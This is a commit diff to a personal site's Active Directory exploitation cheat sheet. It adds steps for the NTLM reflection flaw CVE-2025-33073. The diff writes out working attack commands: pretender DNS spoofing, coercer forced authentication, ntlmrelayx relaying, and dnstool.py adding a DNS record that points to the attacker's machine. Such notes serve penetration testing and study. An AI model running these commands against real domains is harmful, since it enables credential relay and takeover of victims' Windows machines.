

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 900 px high, scrolled down 6684 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated 33073

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -269,8 +269,11 @@
   - Recent CVE, CVE-2025-33073, with exploitation detailed in [this blog post](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
   - We can spoof as a certain type of DNS record, coerce the machine to authenticate to that DNS name, and then relay that authentication back to the original computer (which will actually accept it due to thinking the DNS record is itself, even though it's not where it resolves)
     - `pretender -i "{network_interface}" --spoof "{server_DNS_name}1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" --no-dhcp-dns --no-timestamps`
+      - Can also use responder
     - `coercer coerce -t BRAAVOS.ESSOS.LOCAL -l {server_name}1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -u {domain_user} -p {password} -d {domain}`
     - `ntlmrelayx.py -t BRAAVOS.ESSOS.LOCAL -smb2support`
+  - If we can't do name resolution poisoning, we should attempt to add a DNS record on the machine itself
+    - `python3 dnstool.py -u '{domain}\{user}' -p {password} {target_ip} -a add -r localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d {kali_IP}`
 
 ## Getting execution with credentials or hashes
 - Shells:
```
